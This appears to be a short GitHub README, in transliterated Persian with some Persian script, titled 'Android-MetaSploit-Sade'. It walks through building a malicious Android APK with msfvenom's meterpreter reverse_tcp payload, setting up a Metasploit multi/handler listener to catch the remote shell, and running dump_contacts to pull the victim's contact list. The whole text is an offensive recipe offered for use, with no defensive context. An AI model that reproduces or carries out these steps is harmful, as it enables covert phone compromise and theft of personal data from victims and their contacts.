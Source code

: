 ### Script `Android-MetaSploit-Sade`

$ Kali linux bayad dar halat root bashad

```bash
sudo -s
```

$ "LHOST" va "LPORT" ra jaygozari va enter mikonim (*=ifcongig / **= port delkhah )

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=* LPORT=** -o /home/kali/Desktop/vir.apk
```




2) msfconsole


3) use exploit/multi/handler


4) set payload android/meterpreter/reverse_tcp


5) options


6) set LHOST *


7) set LPORT **


8) options   رو بزنیم میبینیم که دو مورد بالا ست شدن options مجدد


9) exploit


10) help  راهنمای اسکریپت باز می شود


---------------------------------------------------------------------------
example : برای مخاطبین : dump_contacts -o /home/kali/Desktop/contact.txt


